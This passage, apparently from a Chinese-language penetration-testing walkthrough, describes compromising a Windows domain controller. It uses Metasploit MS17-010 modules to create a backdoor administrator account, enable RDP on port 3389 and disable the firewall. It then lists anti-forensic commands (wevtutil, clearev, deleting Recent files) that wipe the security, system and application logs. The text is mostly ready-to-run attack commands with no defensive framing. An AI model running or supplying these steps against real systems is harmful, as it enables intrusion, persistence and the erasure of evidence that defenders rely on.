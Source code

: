 `set command "net localgroup Administrators hack /add"`

`set command ‘REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f’ 打开3389端口`

`set command "netsh firewall set opmode mode=disable" 关闭防火墙`

<img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/8427bec12f778b75daac39158c670acb.png" alt="8427bec12f778b75daac39158c670acb.png" width="660" height="466" class="jop-noMdConv">

* * *

## 拿下域控权限

扫描域控端口

<img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/9f77a1164dfa23e9c06a612f48760bbd.png" alt="9f77a1164dfa23e9c06a612f48760bbd.png" width="792" height="539" class="jop-noMdConv"> <img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/e55483a3394c21c907b6fa8162eda9e5.png" alt="e55483a3394c21c907b6fa8162eda9e5.png" width="908" height="197" class="jop-noMdConv">

发现smb服务，尝试利用smb漏洞

`use exploit/windows/smb/ms17_010_psexec`未成功

用`use auxiliary/admin/smb/ms17_010_command`添加用户并开启3389然后连接

```
set command "net user hack #hack123@ /add" 创建用户

set command  "net localgroup Administrators hack /add" 

set command ‘REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f’ 打开3389端口

set command  "netsh firewall set opmode mode=disable"  关闭防火墙
```

* * *

这是清理痕迹的一些参考方法

```
有远程桌面权限时手动删除日志：
开始-程序-管理工具-计算机管理-系统工具-事件查看器-清除日志

wevtutil：
    wevtutil el 列出系统中所有日志名称
    wevtutil cl system 清理系统日志
    wevtutil cl application 清理应用程序日志
    wevtutil cl security 清理安全日志

meterperter自带清除日志功能：
clearev 清除windows中的应用程序日志、系统日志、安全日志

清除recent：
在文件资源管理器中点击 "查看" -> "选项" ->在常规->隐私中点击" 清除" 按钮
或直接打开C:\Users\Administrator\Recent并删除所有内容
或在命令行中输入del /f /s /q  "%userprofile%\Recent*.*
```